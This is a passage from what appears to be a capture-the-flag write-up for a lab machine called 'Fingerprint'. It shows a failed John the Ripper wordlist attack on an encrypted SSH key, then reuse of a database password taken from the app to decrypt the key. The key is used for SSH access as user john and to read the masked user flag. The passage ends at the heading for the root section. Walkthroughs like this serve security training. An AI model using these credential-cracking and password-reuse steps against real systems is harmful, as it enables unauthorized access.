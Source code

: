     
    
    oxdf@hacky$ john id_rsa.hash --wordlist=/usr/share/wordlists/rockyou.txt 
    Using default input encoding: UTF-8
    Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
    Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
    Cost 2 (iteration count) is 1 for all loaded hashes
    Will run 4 OpenMP threads
    Press 'q' or Ctrl-C to abort, almost any other key for status
    0g 0:00:00:03 DONE (2021-11-04 17:02) 0g/s 4717Kp/s 4717Kc/s 4717KC/s *7¡Vamos!
    Session completed. 
    

#### Previous Passwords

I have the port 80 admin password, the signing secret, and the db password
from the glassfish app, so I’ll try those. The admin password and signing
secret don’t work:

    
    
    oxdf@hacky$ openssl rsa -in fingerprint_john_enc > fingerprint_john
    Enter pass phrase for fingerprint_john_enc:
    unable to load Private Key
    140490283394368:error:06065064:digital envelope routines:EVP_DecryptFinal_ex:bad decrypt:../crypto/evp/evp_enc.c:610:
    140490283394368:error:0906A065:PEM routines:PEM_do_header:bad decrypt:../crypto/pem/pem_lib.c:461:
    

But the DB password did:

    
    
    oxdf@hacky$ openssl rsa -in fingerprint_john_enc > fingerprint_john
    Enter pass phrase for fingerprint_john_enc:
    writing RSA key
    

### SSH

That key now works to get SSH as john:

    
    
    oxdf@hacky$ ssh -i ~/keys/fingerprint_john john@10.10.11.127
    ...[snip]...
    john@fingerprint:~$ 
    

And I can get `user.txt`:

    
    
    john@fingerprint:~$ cat user.txt
    f412fff3************************
    

## Shell as root

### Enumeration
